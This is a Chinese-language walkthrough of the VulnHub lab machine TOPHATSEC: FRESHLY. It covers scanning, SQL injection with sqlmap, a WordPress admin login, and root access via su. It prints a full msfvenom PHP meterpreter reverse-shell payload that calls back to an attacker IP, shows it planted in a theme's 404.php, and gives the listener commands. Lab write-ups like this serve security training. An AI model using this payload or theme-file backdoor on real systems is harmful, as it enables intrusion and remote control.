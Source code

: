 # 原创
：  VulnHub渗透测试实战靶场 - TOPHATSEC: FRESHLY

# VulnHub渗透测试实战靶场 - TOPHATSEC: FRESHLY

#### VulnHub渗透测试实战靶场 - TOPHATSEC: FRESHLY

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/tophatsec/Freshly.ova)


## TOPHATSEC: FRESHLY靶机搭建

> 
具体步骤参考[VirtualBox(Host only)和VMware共用同一虚拟网卡](https://blog.csdn.net/LYJ20010728/article/details/119395324?spm=1001.2014.3001.5501)



## 渗透测试

### 信息搜集

> 
用`arp-scan`探测一下目标靶机的IP：`sudo arp-scan -l`


> 
用nmap探测一下目标靶机IP的信息：`sudo nmap -sS -A 192.168.56.104`


### 漏洞挖掘

> 
分别查看一下探测到的三个开放端口


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/456a7fed21944e1dbb7593973233ec1c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/628c19c387fb49be8645d5372f168fc3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/a41e8539a029475d8e8f38e2e60b1acb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
进一步测试发现现8080和443端口都使用了WordPress


> 
用`dirsearch`扫描一下80端口：`python3 dirsearch.py -u 192.168.56.104 -e *.php`


> 
访问`http://192.168.56.104/login.php`，用burpsuite抓包将内容保存下来，利用sqlmap测试后发现存在SQL注入漏洞


> 



> 



> 



> 



> 
得到用户名和密码：`admin:SuperSecretPassword`<br/> 登录8080端口的web页面：`http://192.168.56.104/login.php`


> 
wordpress有两种方式拿shell



### getshell

> 
进入页面：`http://192.168.56.104:8080/wordpress/wp-admin/theme-editor.php?file=404.php&amp;theme=twentythirteen`<br/> 用msfvenom生成一个php反弹shell的木马：`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.102 LPORT=1234 R &gt; shell.php`


> 
shell内容


```
/*&lt;?php /**/ error_reporting(0); $ip = '192.168.56.102'; $port = 1234; if (($f = 'stream_socket_client') &amp;&amp; is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s &amp;&amp; ($f = 'fsockopen') &amp;&amp; is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s &amp;&amp; ($f = 'socket_create') &amp;&amp; is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) &lt; $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') &amp;&amp; ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();

```

> 
将shell插入命令执行漏洞页面，访问`http://192.168.56.104:8080/wordpress/wp-content/themes/twentythirteen/404.php`，成功触发恶意代码


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/cd0f1ae9bf5c4fe9813abd29c7acdc21.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/db27581d3bbe46fe8641c2bf6fcacd62.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
用msfconsole起一个监听


```
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.56.102
set lport 1234
run

```

> 
再次访问`http://192.168.56.104:8080/wordpress/wp-content/themes/twentythirteen/404.php`，成功反弹shell


### 提权

> 
查看`/etc/passwd`、用户组


> 
发现可以直接`su`提权到root

